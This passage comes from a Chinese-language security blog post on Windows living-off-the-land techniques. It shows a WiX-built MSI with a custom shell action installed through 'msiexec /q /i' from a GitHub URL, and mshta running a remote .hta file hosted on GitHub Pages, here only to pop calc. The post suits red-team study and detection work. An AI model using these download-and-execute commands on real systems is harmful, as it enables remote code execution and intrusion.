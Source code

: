 ```
    <InstallExecuteSequence>
      <Custom Action="SystemShell" After="InstallInitialize"></Custom>
      <Custom Action="FailInstall" Before="InstallFiles"></Custom>
    </InstallExecuteSequence>

  </Product>
</Wix>
```

将其编译，生成msi文件，命令如下：


`candle.exe msigen.wix`

`light.exe msigen.wixobj`


生成test.msi

**实现功能：**

`msiexec /q /i https://github.com/3gstudent/test/raw/master/test.msi`

**注：**

执行后需要手动结束进程msiexec.exe

### 7、mshta

mshta支持`http`和`htpps`

但mshta在执行hta脚本时，类似于浏览器，会根据链接返回头进行对应的解析操作，所以这里只有当返回头为html时才会运行

否则会被当普通文本进行解析

对于github的代码，返回的格式为`text/plain`

如果使用如下命令执行：

```
mshta https://raw.githubusercontent.com/3gstudent/test/master/calc.hta
```

会把代码当成`text`，无法解析成html，导致脚本无法执行

但是我们可以换一个思路：

`将hta文件传到github的博客下面，就能够被解析成html，实现代码执行`

将hta文件上传至github博客下面，地址为https://3gstudent.github.io/test/calc.hta

执行如下命令：

```
mshta https://3gstudent.github.io/test/calc.hta
```

成功弹出计算器

**注:**

该思路来自于DM_
